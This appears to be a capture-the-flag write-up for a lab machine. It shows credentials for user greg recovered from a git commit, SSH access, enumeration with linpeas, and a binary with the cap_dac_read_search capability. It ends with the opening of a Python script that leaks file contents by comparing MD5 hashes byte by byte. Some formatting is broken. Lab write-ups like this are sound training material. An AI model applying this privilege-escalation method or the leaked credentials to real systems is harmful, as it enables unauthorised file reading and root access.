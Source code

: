 Checking it with ```git show f7c903a54cacc4b8f27e00dbf5b0eae4c16c3bb4```, we get creds for greg, which we can use for ssh.

~~~
greg : Gr3g1sTh3B3stDev3l0per!1998!
~~~

i Logged In through SSH

Got ``user flag

![[userflag.jpg]]

I checked for sudo -l

Installed linpeas.sh

Found , 
``/opt/scanner/scanner

Really i got stucked at this step..!! Asked my friends ..!

They said about getcap...!!

~~~
The `getcap` command is used to display the capabilities of executable files on a Linux system. Capabilities are a way to grant specific privileges to an executable file without giving it full root privileges.
~~~

~~~
getcap /opt/scanner/scanner
~~~

![[Pasted image 20230705154532.png]]

~~~
getcap /opt/scanner/scanner cap_dac_read_search=ep
~~~

My doubt is why the user gave all permission to this file?

My mind said `www-data --> greg --> legal/steven --> root`

It maybe a path..!!

But suddenly i thought `steven --> root`
it will be possible , `because both are in same scanner group.!!

This binary has ```cap_dac_read_search=ep``` capability so it can read any file.
```
greg@intentions:~$ getcap /opt/scanner/scanner 
/opt/scanner/scanner cap_dac_read_search=ep
```

Running it we get the help for it.

It `hashes a file we provide with -c` and `compares it to the hash we provided with -s`, also if we `use the -p flag for the DEBUG, it gives us the hash of the file` we provided.

~~~
import os
import hashlib

def find_character(prefix, md5_hash):
    for char in range(256):
        test_string = prefix + chr(char)
        hashed_string = hashlib.md5(test_string.encode()).hexdigest()
        if hashed_string == md5_hash:
            return chr(char)
    return None

def get_hash(file, length):
~~~